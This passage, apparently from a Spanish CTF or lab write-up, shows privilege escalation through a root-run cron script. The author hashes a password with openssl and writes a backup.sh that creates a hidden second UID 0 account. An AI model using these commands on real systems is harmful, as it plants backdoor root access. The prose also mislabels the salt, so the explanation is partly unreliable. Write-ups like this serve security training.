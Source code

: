 Ya que el crontab se ejecuta con permisos de administrador, voy a crear dentro un script que añada un usuario y ademas le establezca el usuario en UID 0, que seria root y le establecere una clave que voy a generar con el siguiente comando:

```bash
openssl passwd -6 -salt DhhlabhR 12345678
```

![alt text](/images/image-37.png)

Este comando de OpenSSL se utiliza para generar contraseñas hash en diferentes formatos. El modificador -6: Este indica que se debe utilizar el formato de cifrado de contraseña SHA512crypt. Con el modificador -salt 1 especifico el valor del "salt" (sal) a utilizar como entrada adicional para aumentar la seguridad del hash de la contraseña. En este caso, el valor de la sal es "1". La clave a encriptar sera "12345678"

La clave que me devuelve es:

```bash
$6$DhhlabhR$QtL1Lye8xLphXmzhbGvO1gRb7H7HmgrJUxjJjEwHKSwZwX9zTIj1kW9bwelCdXBh20euFNL2Yy7UHWle9wQ9M1
```

Asi que creo el siguiente script en el fichero backup.sh

```bash
#!/bin/bash
/usr/sbin/useradd ibl4zqu3z -u 0 -o -p $6$DhhlabhR$QtL1Lye8xLphXmzhbGvO1gRb7H7HmgrJUxjJjEwHKSwZwX9zTIj1kW9bwelCdXBh20euFNL2Yy7UHWle9wQ9M1
```

![alt text](/images/image-36.png)

Si compruebo el contenido de passwd veo que siendo usuario sin permisos de modificar passwd he conseguido añadir dentro del fichero mi usuario.
